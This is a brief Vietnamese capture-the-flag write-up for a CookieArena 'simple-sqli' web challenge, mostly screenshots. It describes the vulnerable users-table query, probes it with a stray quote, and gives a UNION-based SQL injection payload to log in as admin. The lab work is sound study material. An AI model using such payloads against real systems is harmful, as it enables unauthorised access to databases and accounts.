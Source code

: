 https://battle.cookiearena.org/challenges/web/simple-sqli

1.	Overview code:

![1](./img/37.png)

- Tạo một bảng database có tên users gồm 3 cột userid, userpassword, userlevel
Thực hiện tạo giá trị guest và admin 

![1](./img/38.png)

- Thực hiện truy vấn: SELECT * FROM users WHERE userlevel='userlevel'

2. Thực hiện lấy Flag:
-	Chuỗi truy vấn sẽ được chèn vào giá trị userlevel

![1](./img/39.png)

-	Thử với giá trị 0:

![1](./img/40.png)

-	Thử với giá trị bất thường: 0'

![1](./img/42.png)
Web đã validate giá trị nên ta có thể tiêm sql 

-	Payload: ' UNION SELECT 'admin', 'password', 0--

![1](./img/41.png)